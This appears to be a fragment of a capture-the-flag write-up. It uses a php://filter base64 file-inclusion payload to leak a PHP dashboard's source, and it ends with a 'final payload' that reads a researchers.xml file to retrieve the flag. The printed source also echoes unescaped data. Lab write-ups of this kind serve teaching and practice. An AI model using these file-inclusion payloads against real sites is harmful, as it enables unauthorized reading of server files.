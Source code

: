  ```php://filter/convert.base64-encode/resource=dev/dashboard.php``` which gives reference researchers.xml
<html lang="en">
<head>
<meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/dashboard-style.css">
    <title>Search Catalogue</title>
</head>
<body>
    <div class="container">
        <div class="dashboard-container">
            <h2>Welcome, <?php echo $_SESSION["username"]; ?></h2>
            <p><strong>Hall of Fame:</strong> John Doe, Emma Martinez</p>
            <h3>Search Cybersecurity Researchers</h3>
            <form action="dashboard.php" method="GET">
                <input type="text" name="searchName" placeholder="Enter researcher's name">
                <button type="submit" name="search">Search</button>
            </form>
            <?php
            if (!empty($searchResults)) {
                // echo $searchResults;
                echo "<h4>Search Results:</h4>";
                foreach ($searchResults as $result) {
                    $name = $result->getElementsByTagName("name")->item(0)->nodeValue;
                    $contributions = $result->getElementsByTagName("contributions")->item(0)->nodeValue;
                    $description = $result->getElementsByTagName("description")->item(0)->nodeValue;
                    $flag = $result->getElementsByTagName("flag")->item(0)->nodeValue;

                    echo "<div class='researcher'>
                              <h4>$name</h4>
                              <p><strong>Contributions:</strong> $contributions</p>
                              <p><strong>Description:</strong> $description</p>
                              <p><strong>Flag:</strong> $flag</p>
                          </div>";
                }
            }
            ?>
            <!-- enitites: researcher, flags -->
        </div>
        <form action="dashboard.php" method="POST">
                <button type="submit" name="logout">Logout</button>
        </form>
    </div>
</body>
</html>
 
 ```
 10. Final payload to access researchers.xml ```php://filter/convert.base64-encode/resource=dev/data/researchers.xml```
